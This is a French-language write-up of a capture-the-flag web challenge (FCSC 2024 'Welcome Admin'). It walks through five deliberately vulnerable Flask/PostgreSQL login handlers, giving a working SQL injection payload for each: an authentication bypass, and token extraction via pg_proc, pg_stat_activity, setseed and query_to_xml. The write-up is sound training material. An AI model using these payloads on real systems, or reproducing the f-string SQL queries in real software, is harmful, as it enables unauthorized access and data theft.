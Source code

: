 # README - Welcome Admin 2/2 Challenge Solution

### Objectif
La mission est d'exploiter des vulnérabilités SQL Injection pour obtenir le "flag" final. Chaque étape impose une nouvelle difficulté, et le flag ne peut être récupéré qu'en résolvant toutes les étapes dans l'ordre.

---

## Pré-requis

### Fichiers nécessaires
- **docker-compose.yml** : Fichier de configuration Docker.
- **welcome-admin.tar.xz** : Code source de l'application Flask.

### Installation
1. Téléchargez le fichier `docker-compose.yml` :
   ```bash
   curl https://hackropole.fr/challenges/fcsc2024-web-welcome-admin/docker-compose.public.yml -o docker-compose.yml
   ```
2. Placez le fichier dans un répertoire dédié.
3. Lancez le conteneur Docker :
   ```bash
   docker compose up
   ```
4. Accédez à l'application Flask via :
   [http://localhost:8000/](http://localhost:8000/).


## Solution : Étapes et Payloads
Chaque étape nécessite une injection SQL spécifique. Voici les détails étape par étape :

### Étape 1 : Guest → Admin
#### Code de l'application :
```python
@app.route("/", methods=["GET", "POST"])
@login_for(Rank.GUEST, Rank.ADMIN, "/admin")
def level1(cursor: cursor, password: str):
    token = os.urandom(16).hex()
    cursor.execute(f"SELECT '{token}' = '{password}'")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 1:
        return False
    return bool(row[0])
```
#### Analyse
L'objectif est de contourner la validation en faisant en sorte que la requête SQL retourne toujours "true".

#### Payload utilisé :
```sql
' OR 1=1 --
```

---

### Étape 2 : Admin → Super Admin
#### Code de l'application :
```python
@app.route("/admin", methods=["GET", "POST"])
@login_for(Rank.ADMIN, Rank.SUPER_ADMIN, "/super-admin", FIRST_FLAG)
def level2(cursor: cursor, password: str):
    token = os.urandom(16).hex()
    cursor.execute(
        f"""
            CREATE FUNCTION check_password(_password text) RETURNS text
            AS $$
                BEGIN
                    IF _password = '{token}' THEN
                        RETURN _password;
                    END IF;
                    RETURN 'nope';
                END;
            $$
            IMMUTABLE LANGUAGE plpgsql;
        """
    )
    cursor.execute(f"SELECT  check_password('{password}')")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 1:
        return False
    return row[0] == token
```
#### Analyse
La fonction `check_password` est créée dynamiquement avec le token à l'intérieur de son corps. Il est possible d'extraire ce token depuis la table `pg_proc`.

#### Payload utilisé :
```sql
'||(select substring(prosrc, '[0-9a-f]{32}') from pg_proc where proname='check_password'))--
```

---

### Étape 3 : Super Admin → Hyper Admin
#### Code de l'application :
```python
@app.route("/super-admin", methods=["GET", "POST"])
@login_for(Rank.SUPER_ADMIN, Rank.HYPER_ADMIN, "/hyper-admin")
def level3(cursor: cursor, password: str):
    token = os.urandom(16).hex()
    cursor.execute(f"SELECT '{token}', '{password}';")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 2:
        return False
    return row[1] == token
```
#### Analyse
Le token est directement accessible dans la requête en cours. Nous pouvons l'extraire depuis la table `pg_stat_activity`.

#### Payload utilisé :
```sql
'|| substring(query,'[0-9a-f]{32}') FROM pg_stat_activity WHERE query LIKE '%query%';
```

---

### Étape 4 : Hyper Admin → Turbo Admin
#### Code de l'application :
```python
@app.route("/hyper-admin", methods=["GET", "POST"])
@login_for(Rank.HYPER_ADMIN, Rank.TURBO_ADMIN, "/turbo-admin")
def level4(cursor: cursor, password: str):
    cursor.execute(f"SELECT md5(random()::text), '{password}';")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 2:
        return False
    return row[0] == row[1]
```
#### Analyse
Le token est haché avec `md5(random()::text)`. Nous utilisons `setseed` pour forcer le générateur aléatoire à retourner une valeur contrôlée.

#### Payload utilisé :
```sql
4d359fe4a63dd3d663c742aa88ef514a' FROM pg_stat_activity WHERE ''=(select ''||setseed(0))||'';
```

---

### Étape 5 : Turbo Admin → Flag
#### Code de l'application :
```python
@app.route("/turbo-admin", methods=["GET", "POST"])
@login_for(Rank.TURBO_ADMIN, Rank.FLAG, "/flag")
def level5(cursor: cursor, password: str):
    table_name = "table_" + os.urandom(16).hex()
    col_name = "col_" + os.urandom(16).hex()
    token = os.urandom(16).hex()
    cursor.execute(
        f"""
        CREATE TABLE "{table_name}" (
          id serial PRIMARY KEY,
          "{col_name}" text
        );
        INSERT INTO "{table_name}"("{col_name}") VALUES ('{token}');
        """
    )
    cursor.execute(f"SELECT '{password}';")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 1:
        return False
    return row[0] == token
```
#### Analyse
Le token est inséré dans une table aléatoire avec une colonne aléatoire. En utilisant `query_to_xml`, nous pouvons extraire ces informations dynamiques.

#### Payload utilisé :
```sql
(SELECT 
    substring(substring(
        XMLSERIALIZE(
          DOCUMENT query_to_xml(
            'SELECT * FROM ' ||(
              SELECT string_agg(substring(table_name, 'table_[a-f0-9]{32}'), '-') 
              FROM information_schema.tables 
              WHERE table_name like 'table_%'
            ), 
            true, true, '') as text), 
        '>[a-z0-9]{32}<'), 
2, 32)
)
```

---

## Conclusion
Chaque étape exploite une vulnérabilité spécifique de l'application Flask et de PostgreSQL. Ces attaques illustrent l'importance d'une gestion rigoureuse des requêtes SQL et de la validation des entrées utilisateur. Une fois toutes les étapes validées, le flag final est obtenu.
